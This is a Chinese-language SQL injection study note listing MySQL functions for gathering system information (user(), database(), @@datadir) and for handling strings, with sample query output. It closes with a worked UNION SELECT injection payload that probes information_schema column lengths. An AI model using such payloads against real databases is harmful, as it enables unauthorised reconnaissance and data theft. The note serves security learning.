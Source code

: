 

## MYSQL信息收集常用函数

### 系统信息获取函数

- `system_user()`：系统用户名
- `user()`：用户名
- `current_user()`：当前用户名
- `session_user()`：链接数据库的用户名
- `database()`：数据库名
- `version()`：数据库版本
- `@@datadir`：数据库路径
- `@@basedir`：数据库安装路径
- `@@version_conpile_os`：操作系统

```
mysql> select system_user(),user(),current_user(),session_user(),database();
+-------------------+-------------------+----------------+-------------------+--------------------+
| system_user()     | user()            | current_user() | session_user()    | database()         |
+-------------------+-------------------+----------------+-------------------+--------------------+
| root@10.10.10.100 | root@10.10.10.100 | root@%         | root@10.10.10.100 | information_schema |
+-------------------+-------------------+----------------+-------------------+--------------------+
1 row in set (0.03 sec)

mysql> select @@datadir,@@basedir,@@version_compile_os;
+-----------------+-----------+----------------------+
| @@datadir       | @@basedir | @@version_compile_os |
+-----------------+-----------+----------------------+
| /var/lib/mysql/ | /usr/     | Linux                |
+-----------------+-----------+----------------------+
1 row in set (0.03 sec)
```



### 字符串处理函数

- `concat()`：没有分隔符的链接字符串
- `concat_ws()`：含有分隔符的连接字符串
- `group_concat()`：连接一个组的所有字符串，并以逗号分隔每一条数据
- `ascii()`：字符串的ASCII代码值
- `ord()`：返回字符串第一个字符的ASCII值
- `mid()`：返回一个字符串的一部分
- `substr()`：返回一个字符串的一部分
- `length()`：返回字符串的长度
- `left()`：返回字符串最左面几个字符
- `char()`：返回整数ASCII代码字符组成的字符串
- `strcmp()`：比较字符串内容

#### 字符串处理函数使用场景

```
#length函数
假设server后端的插入语句为
mysql> select name from user.User where id = {x};

注入语句可以这么写
1 and 1=2 union select length(column_name) from information_schema.columns where table_schema = 'user' and table_name = 'User' limit 0,1;

结合后的效果
select name from user.User where id = 1 and 1=2 union select length(column_name) from information_schema.columns where table_schema = 'user' and table_name = 'User' limit 0,1;

```